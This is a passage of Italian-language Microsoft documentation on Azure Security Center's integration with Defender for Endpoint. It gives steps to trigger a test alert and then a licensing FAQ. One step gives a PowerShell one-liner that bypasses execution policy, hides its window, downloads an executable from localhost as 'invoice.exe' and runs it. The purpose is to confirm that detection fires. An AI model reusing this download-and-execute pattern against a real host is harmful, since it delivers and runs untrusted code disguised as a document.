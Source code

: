 1. Creare una cartella ' C:\test-MDATP-test '.
1. Usare Desktop remoto per accedere al computer.
1. Aprire una finestra della riga di comando.
1. Al prompt copiare ed eseguire il comando seguente. La finestra del prompt dei comandi verrà chiusa automaticamente.

    ```powershell
    powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe'); Start-Process 'C:\\test-MDATP-test\\invoice.exe'
    ```
    :::image type="content" source="./media/security-center-wdatp/generate-edr-alert.png" alt-text="Finestra del prompt dei comandi con il comando per generare un avviso di test.":::

1. Se il comando ha esito positivo, verrà visualizzato un nuovo avviso nel dashboard del Centro sicurezza di Azure e in Microsoft Defender per l'endpoint Portal. Possono trascorrere alcuni minuti prima che l'avviso venga visualizzato.
1. Per esaminare l'avviso nel centro sicurezza, passare a **avvisi di sicurezza** riga di comando di  >  **PowerShell sospetti**.
1. Dalla finestra di analisi selezionare il collegamento per passare a Microsoft Defender per endpoint Portal.

    > [!TIP]
    > L'avviso viene attivato con gravità **informativa** .

## <a name="faq-for-security-centers-integrated-microsoft-defender-for-endpoint"></a>Domande frequenti per l'endpoint integrato di Microsoft Defender per il Centro sicurezza

- [Quali sono i requisiti di licenza per Microsoft Defender per l'endpoint?](#what-are-the-licensing-requirements-for-microsoft-defender-for-endpoint)
- [Se si ha già una licenza di Microsoft Defender per endpoint, è possibile ottenere uno sconto per Azure Defender?](#if-i-already-have-a-license-for-microsoft-defender-for-endpoint-can-i-get-a-discount-for-azure-defender)
- [Ricerca per categorie passare da uno strumento EDR di terze parti?](#how-do-i-switch-from-a-third-party-edr-tool)

### <a name="what-are-the-licensing-requirements-for-microsoft-defender-for-endpoint"></a>Quali sono i requisiti di licenza per Microsoft Defender per l'endpoint?
Defender for endpoint è incluso senza costi aggiuntivi con **Azure Defender per i server**. In alternativa, può essere acquistato separatamente per 50 o più computer.

### <a name="if-i-already-have-a-license-for-microsoft-defender-for-endpoint-can-i-get-a-discount-for-azure-defender"></a>Se si ha già una licenza di Microsoft Defender per endpoint, è possibile ottenere uno sconto per Azure Defender?
Se si ha già una licenza per Microsoft Defender per endpoint, non sarà necessario pagare per tale parte della licenza di Azure Defender.

Per confermare lo sconto, contattare il team di supporto del Centro sicurezza e fornire le informazioni appropriate per ID area di lavoro, area e licenza per ogni licenza pertinente.
